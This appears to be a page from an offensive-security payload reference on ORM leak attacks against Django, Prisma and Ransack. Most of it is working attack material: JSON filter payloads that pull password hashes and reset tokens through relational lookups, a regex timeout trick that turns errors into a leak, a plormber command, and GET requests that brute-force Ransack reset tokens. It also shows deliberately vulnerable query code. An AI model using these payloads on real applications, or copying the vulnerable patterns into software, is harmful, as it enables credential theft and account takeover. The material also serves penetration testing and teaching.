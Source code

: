 # ORM Leak

> An ORM leak vulnerability occurs when sensitive information, such as database structure or user data, is unintentionally exposed due to improper handling of ORM queries. This can happen if the application returns raw error messages, debug information, or allows attackers to manipulate queries in ways that reveal underlying data.


## Summary

* [Django (Python)](#django-python)
    * [Query filter](#query-filter)
    * [Relational Filtering](#relational-filtering)
        * [One-to-One](#one-to-one)
        * [Many-to-Many](#many-to-many)
    * [Error-based leaking - ReDOS](#error-based-leaking---redos)
* [Prisma (Node.JS)](#prisma-nodejs)
    * [Relational Filtering](#relational-filtering-1)
        * [One-to-One](#one-to-one-1)
        * [Many-to-Many](#many-to-many-1)
* [Ransack (Ruby)](#ransack-ruby)
* [CVE](#cve)
* [References](#references)


## Django (Python)

The following code is a basic example of an ORM querying the database.

```py
users = User.objects.filter(**request.data)
serializer = UserSerializer(users, many=True)
```

The problem lies in how the Django ORM uses keyword parameter syntax to build QuerySets. By utilizing the unpack operator (`**`), users can dynamically control the keyword arguments passed to the filter method, allowing them to filter results according to their needs.


### Query filter

The attacker can control the column to filter results by. 
The ORM provides operators for matching parts of a value. These operators can utilize the SQL LIKE condition in generated queries, perform regex matching based on user-controlled patterns, or apply comparison operators such as < and >.


```json
{
    "username": "admin",
    "password__startswith": "p"
}
```

Interesting filter to use:

* `__startswith`
* `__contains`
* `__regex`


### Relational Filtering

Let's use this great example from [PLORMBING YOUR DJANGO ORM, by Alex Brown](https://www.elttam.com/blog/plormbing-your-django-orm/)
![](https://www.elttam.com/assets/images/blog/2024-06-24-plormbing-your-django-orm/UML-example-app-simplified-highlight1.png)

We can see 2 type of relationships:

* One-to-One relationships
* Many-to-Many Relationships


#### One-to-One

Filtering through user that created an article, and having a password containing the character `p`.

```json
{
    "created_by__user__password__contains": "p"
}
```


#### Many-to-Many

Almost the same thing but you need to filter more.

* Get the user IDS: `created_by__departments__employees__user__id`
* For each ID, get the username: `created_by__departments__employees__user__username` 
* Finally, leak their password hash: `created_by__departments__employees__user__password`

Use multiple filters in the same request:

```json
{
    "created_by__departments__employees__user__username__startswith": "p",
    "created_by__departments__employees__user__id": 1
}
```


### Error-based leaking - ReDOS

If Django use MySQL, you can also abuse a ReDOS to force an error when the filter does not properly match the condition.

```json
{"created_by__user__password__regex": "^(?=^pbkdf1).*.*.*.*.*.*.*.*!!!!$"}
// => Return something

{"created_by__user__password__regex": "^(?=^pbkdf2).*.*.*.*.*.*.*.*!!!!$"}  
// => Error 500 (Timeout exceeded in regular expression match)
```


## Prisma (Node.JS)

**Tools**:

* [elttam/plormber](https://github.com/elttam/plormber) - tool for exploiting ORM Leak time-based vulnerabilities
    ```ps1
    plormber prisma-contains \
        --chars '0123456789abcdef' \
        --base-query-json '{"query": {PAYLOAD}}' \
        --leak-query-json '{"createdBy": {"resetToken": {"startsWith": "{ORM_LEAK}"}}}' \
        --contains-payload-json '{"body": {"contains": "{RANDOM_STRING}"}}' \
        --verbose-stats \
        https://some.vuln.app/articles/time-based;
    ```

**Example**:

Example of an ORM leak in Node.JS with Prisma.

```js
const posts = await prisma.article.findMany({
    where: req.query.filter as any // Vulnerable to ORM Leaks
})
```

Use the include to return all the fields of user records that have created an article

```json
{
    "filter": {
        "include": {
            "createdBy": true
        }
    }
}
```

Select only one field

```json
{
    "filter": {
        "select": {
            "createdBy": {
                "select": {
                    "password": true
                }
            }
        }
    }
}
```


### Relational Filtering

#### One-to-One

* [`filter[createdBy][resetToken][startsWith]=06`](http://127.0.0.1:9900/articles?filter[createdBy][resetToken][startsWith]=)

#### Many-to-Many

```json
{
    "query": {
        "createdBy": {
            "departments": {
                "some": {
                    "employees": {
                        "some": {
                            "departments": {
                                "some": {
                                    "employees": {
                                        "some": {
                                            "departments": {
                                                "some": {
                                                    "employees": {
                                                        "some": {
                                                            "{fieldToLeak}": {
                                                                "startsWith": "{testStartsWith}"
                                                            }
                                                        }
                                                    }
                                                }
                                            }
                                        }
                                    }
                                }
                            }
                        }
                    }
                }
            }
        }
    }
}
```


## Ransack (Ruby)

Only in Ransack < `4.0.0`.

![](https://assets-global.website-files.com/5f6498c074436c349716e747/63ceda8f7b5b98d68365bdee_ransack_bruteforce_overview-p-1600.png)

* Extracting the `reset_password_token` field of a user
    ```ps1
    GET /posts?q[user_reset_password_token_start]=0 -> Empty results page
    GET /posts?q[user_reset_password_token_start]=1 -> Empty results page
    GET /posts?q[user_reset_password_token_start]=2 -> Results in page

    GET /posts?q[user_reset_password_token_start]=2c -> Empty results page
    GET /posts?q[user_reset_password_token_start]=2f -> Results in page
    ```

* Target a specific user and extract his `recoveries_key`
    ```ps1
    GET /labs?q[creator_roles_name_cont]=​superadmin​​&q[creator_recoveries_key_start]=0
    ```


## CVE

* [CVE-2023-47117: Label Studio ORM Leak](https://github.com/HumanSignal/label-studio/security/advisories/GHSA-6hjj-gq77-j4qw)
* [CVE-2023-31133: Ghost CMS ORM Leak](https://github.com/TryGhost/Ghost/security/advisories/GHSA-r97q-ghch-82j9)
* [CVE-2023-30843: Payload CMS ORM Leak](https://github.com/payloadcms/payload/security/advisories/GHSA-35jj-vqcf-f2jf)


## References

- [ORM Injection - HackTricks - July 30, 2024](https://book.hacktricks.xyz/pentesting-web/orm-injection)
- [ORM Leak Exploitation Against SQLite - Louis Nyffenegger - July 30, 2024](https://pentesterlab.com/blog/orm-leak-with-sqlite3)
- [plORMbing your Django ORM - Alex Brown - June 24, 2024](https://www.elttam.com/blog/plormbing-your-django-orm/)
- [plORMbing your Prisma ORM with Time-based Attacks - Alex Brown - July 9, 2024](https://www.elttam.com/blog/plorming-your-primsa-orm/)
- [QuerySet API reference - Django - August 8, 2024](https://docs.djangoproject.com/en/5.1/ref/models/querysets/)
- [Ransacking your password reset tokens - Lukas Euler - January 26, 2023](https://positive.security/blog/ransack-data-exfiltration)